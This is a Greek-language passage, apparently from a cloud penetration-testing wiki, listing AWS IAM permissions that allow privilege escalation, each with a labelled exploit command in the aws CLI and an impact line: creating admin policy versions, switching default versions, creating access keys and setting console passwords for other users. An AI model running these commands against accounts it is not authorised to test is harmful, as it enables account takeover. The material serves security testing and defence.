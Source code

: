 ## IAM

Για περισσότερες πληροφορίες σχετικά με το IAM, ελέγξτε:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### **`iam:CreatePolicyVersion`**

Παρέχει τη δυνατότητα δημιουργίας μιας νέας έκδοσης πολιτικής IAM, παρακάμπτοντας την ανάγκη για άδεια `iam:SetDefaultPolicyVersion` χρησιμοποιώντας την επιλογή `--set-as-default`. Αυτό επιτρέπει τον καθορισμό προσαρμοσμένων αδειών.

**Exploit Command:**
```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
--policy-document file:///path/to/administrator/policy.json --set-as-default
```
**Επίπτωση:** Αυξάνει άμεσα τα προνόμια επιτρέποντας οποιαδήποτε ενέργεια σε οποιοδήποτε πόρο.

### **`iam:SetDefaultPolicyVersion`**

Επιτρέπει την αλλαγή της προεπιλεγμένης έκδοσης μιας πολιτικής IAM σε μια άλλη υπάρχουσα έκδοση, ενδεχομένως αυξάνοντας τα προνόμια αν η νέα έκδοση έχει περισσότερες άδειες.

**Bash Command:**
```bash
aws iam set-default-policy-version --policy-arn <target_policy_arn> --version-id v2
```
**Επίπτωση:** Έμμεση κλιμάκωση προνομίων επιτρέποντας περισσότερες άδειες.

### **`iam:CreateAccessKey`**

Επιτρέπει τη δημιουργία αναγνωριστικού κλειδιού πρόσβασης και μυστικού κλειδιού πρόσβασης για άλλο χρήστη, οδηγώντας σε πιθανή κλιμάκωση προνομίων.

**Εκμετάλλευση:**
```bash
aws iam create-access-key --user-name <target_user>
```
**Επίπτωση:** Άμεση κλιμάκωση δικαιωμάτων αναλαμβάνοντας τις επεκταμένες άδειες άλλου χρήστη.

### **`iam:CreateLoginProfile` | `iam:UpdateLoginProfile`**

Επιτρέπει τη δημιουργία ή την ενημέρωση ενός προφίλ σύνδεσης, συμπεριλαμβανομένου του καθορισμού κωδικών πρόσβασης για τη σύνδεση στο AWS console, οδηγώντας σε άμεση κλιμάκωση δικαιωμάτων.

**Εκμετάλλευση για Δημιουργία:**
```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**Εκμετάλλευση για Ενημέρωση:**
```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
--password '<password>'
```
**Επίπτωση:** Άμεση κλιμάκωση προνομίων με την είσοδο ως "οποιοσδήποτε" χρήστης.
